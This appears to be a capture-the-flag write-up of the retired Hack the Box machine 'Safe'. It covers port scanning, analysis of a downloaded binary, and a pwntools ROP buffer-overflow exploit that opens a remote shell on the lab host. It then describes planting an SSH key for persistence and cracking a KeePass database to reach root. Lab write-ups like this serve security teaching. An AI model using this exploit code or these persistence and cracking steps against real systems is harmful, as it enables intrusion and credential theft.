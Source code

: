 ```yaml
---
title: Hackthebox-Safe-Writeup 
published: true
ayout: post
date: 2021-08-2 18:54 +0600
image: "https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2020-03-19-Hackthebox_Safe/0.png"
tags: [HackTheBox, CTF]
featured: false
---
```


# [](#header-1)Safe -- Hack the Box write-up

**Safe** is a _retired_ machine from Hack the Box. It is rated as a easy machine, however, the user own difficulty is rated medium-hard (probably for containing a ROP exploitable binary, uncommon in this platform.


## [](#header-2)Enumeration

First, let's start running a quick scan to discover which ports are open.
`nmap -T5 -n -Pn -oG fastscan -p- 10.10.10.147`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 16:00 EDT                                                                                                                                 
Warning: 10.10.10.147 giving up on port because retransmission cap hit (2).                                                                                                                                     
Nmap scan report for 10.10.10.147                                                                                                                                                                               
Host is up (0.049s latency).                                                                                                                                                                                    
Not shown: 65532 closed ports                                                                                                                                                                                   
PORT     STATE SERVICE                                                                                                                                                                                          
22/tcp   open  ssh                                                                                                                                                                                              
80/tcp   open  http                                                                                                                                                                                             
1337/tcp open  waste                                                                                                                                                                                            
                                                                                                                                                                                                                
Nmap done: 1 IP address (1 host up) scanned in 113.76 seconds   
```
Now, let's look more in depth what is the service associated with each port `nmap -T5 -n -p 22,80,1337 -sC -sV -oG indepthscan 10.10.10.147`:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 17:17 EDT
Nmap scan report for 10.10.10.147
Host is up (0.052s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
1337/tcp open  waste?
| fingerprint-strings:
|   DNSStatusRequestTCP:
|     17:30:31 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   DNSVersionBindReqTCP:
|     17:30:26 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   GenericLines:
|     17:30:15 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   GetRequest:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? GET / HTTP/1.0
|   HTTPOptions:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / HTTP/1.0
|   Help:
|     17:30:36 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? HELP
|   NULL:
|     17:30:15 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   RPCCheck:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   RTSPRequest:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / RTSP/1.0
|   SSLSessionReq:
|     17:30:36 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   TLSSessionReq, TerminalServerCookie:
|     17:30:37 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|_    What do you want me to echo back?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.80%I=7%D=3/19%Time=5E73E16E%P=x86_64-pc-linux-gnu%r(NU
SF:LL,3E,"\x2017:30:15\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x
SF:20average:\x200\.00,\x200\.00,\x200\.00\n")%r(GenericLines,63,"\x2017:3
SF:0:15\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200
SF:\.00,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20ec
SF:ho\x20back\?\x20\r\n")%r(GetRequest,71,"\x2017:30:21\x20up\x20\x203:13,
SF:\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.0
SF:0\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20GET\x20
SF:/\x20HTTP/1\.0\r\n")%r(HTTPOptions,75,"\x2017:30:21\x20up\x20\x203:13,\
SF:x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00
SF:\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIONS\
SF:x20/\x20HTTP/1\.0\r\n")%r(RTSPRequest,75,"\x2017:30:21\x20up\x20\x203:1
SF:3,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\
SF:.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIO
SF:NS\x20/\x20RTSP/1\.0\r\n")%r(RPCCheck,3E,"\x2017:30:21\x20up\x20\x203:1
SF:3,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\
SF:.00\n")%r(DNSVersionBindReqTCP,3E,"\x2017:30:26\x20up\x20\x203:13,\x20\
SF:x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n")
SF:%r(DNSStatusRequestTCP,3E,"\x2017:30:31\x20up\x20\x203:13,\x20\x200\x20
SF:users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n")%r(Help,
SF:67,"\x2017:30:36\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20a
SF:verage:\x200\.00,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me
SF:\x20to\x20echo\x20back\?\x20HELP\r\n")%r(SSLSessionReq,64,"\x2017:30:36
SF:\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00
SF:,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x
SF:20back\?\x20\x16\x03\n")%r(TerminalServerCookie,63,"\x2017:30:37\x20up\
SF:x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\
SF:.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\
SF:?\x20\x03\n")%r(TLSSessionReq,64,"\x2017:30:37\x20up\x20\x203:13,\x20\x
SF:200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n\nW
SF:hat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20\x16\x03\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```

Hmmm... Looks like we have a l33t port open. We'll see what is running there later. 
By now, time to start my reconaissance part.

## [](#header-2)Recon

First, let's check if any of the running services can be exploited remotely.

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/searchsploit.PNG)

Nothing interesting so far. Better to see what is running under port 80.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/port80.PNG)

Hurray, a boring **Apache** default page... Fuzzing does not give us any interesing information either.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/fuzz.PNG)

However, reviewing the page source code gives us finally some valuable info! It seems that an app called 'myapp' (duh) is running under port 1337. 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/fuzz.PNG)

Also, we can download it by browsing into http://10.10.10.147/myapp. `curl -v -XGET http://10.10.10.147/myapp -o myapp` 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/download_bin.PNG)

It smells like a challenge similar to the BOF from the OSCP :). We need to confirm it sending a large message to the program. 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/overflow.PNG)

Yep, we go the buffer overflow. Let's run `checksec` to see if it has any security measures enabled.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/checksec.PNG)

Yikes, **NX enabled** (non-executable stack). We can not simply put our shellcode in the stack to jump and execute it. 

After opening the binary with **Ghidra** and looking into the decompiled code, we can ensure that there exists the buffer overflow as only **112 characters** are reserved for the string.

![](https://github.com/kikoas1995/kikoas1995.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/decompiledC.PNG)
Also, the function system is called, which can allow us to execute remote code via ROP. Obviously, the argument passed to this function is not a shell. It is actually the _uptime_ binary:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/uptime_rdi.PNG)
![](uptime exec)

## [](#header-2)Exploitation

It is time to use some binary exploitation skills. 
We need a way to put `/bin/sh` onto the _rdi_ register and then call the local function `system()`. 
> Note: _rdi_ register always acts as the first argument for the function that will be called. In x86 binaries, arguments were passed pushing registers into the stack.  

Using `objdump` we find a `system()` call in address 0x401040.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/system_addr.PNG)

Now I will use `gef` to inspect the source code main and test functions.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/info_functions.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/disas main tests.PNG)

Apparently, when the `test()` function ends, jumps to the memory address stored in the r13 register, so we need to put there the `system()` call we addressed before. In order to do this we need to look for a ROP gadget where we can store the system call. I will simplify this process using **ropper**:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/ropper.PNG)

Looks like `0x0000000000401206` would work for us.

We are almost finishing! We need to overwrite the stack base pointer with our shell, which will be done with the _pattern create_ and _pattern offset_ utilities of `gef`: 

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/pattern_create.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/pattern_offset.PNG)
So the string `oaaaaaaa` will be in our case a `/bin/sh\x00`. Time to develope our own exploit with the help of **pwntools**.

```python
from pwn import *

p = remote('10.10.10.147', 1337) 
buffer = "A"*112 + "/bin/sh\x00"   # rbp = /bin/sh\x00
buffer += p64(0x401206)            # ROP gadget addr
buffer += p64(0x401040)            # r13 = system() call addr 
buffer += p64(0x000000)            # r14 = blank
buffer += p64(0x000000)            # r15 = blank
buffer += p64(0x401152)            # init() addr

print("Safe(10.10.10.147) HTB machine remote exploit") 
p.sendline(buffer)
p.interactive()
```
It worked!!! :D
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/remoteshell.PNG)

As the SSH service is enabled, I can add my public key to the authorized_keys file on the target:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/ssh-keygen.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/sshshell.PNG)

## [](#header-2)Privilege Escalation

Root is easier than user, you'll see. First, Copy every file from the user folder.

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/scp.PNG)

Now let's crack the keepass database. We have a list of images which can be a hint that the database key could be one of them. However, in addition to the file, it is protected with a password, so I will use a small wordlist for each image  used to decrypt de database.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/crack_keepass.PNG)

It seems that the IMG_0547.JPG, along with the password 'bullshit', is our entrance to root :).
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/root_pwd.PNG)

Performing a su root with the password retrieved leads us to our beloved root shell. Reading the flags from here is trivial.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/flags.PNG)

